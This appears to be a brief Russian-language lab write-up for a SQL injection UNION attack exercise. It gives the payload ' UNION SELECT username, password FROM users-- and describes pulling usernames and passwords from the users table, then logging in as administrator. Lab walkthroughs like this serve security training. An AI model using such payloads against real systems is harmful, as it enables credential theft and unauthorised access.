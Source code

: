 Lab: SQL injection UNION attack, retrieving data from other tables.

1.Вместо категории вводим запрос '+ UNION+SELECT+username,+password+FROM+users--
![2020-03-15(26)](https://github.com/AnnaKlimina/SQL/blob/master/screens/2020-03-15%20(26).png)

2.Получаем данные: логины и пароли.
![2020-03-15(27)](https://github.com/AnnaKlimina/SQL/blob/master/screens/2020-03-15%20(27).png)

3.Вводим логин и пароль администратора.
![2020-03-15(28)](https://github.com/AnnaKlimina/SQL/blob/master/screens/2020-03-15%20(28).png)
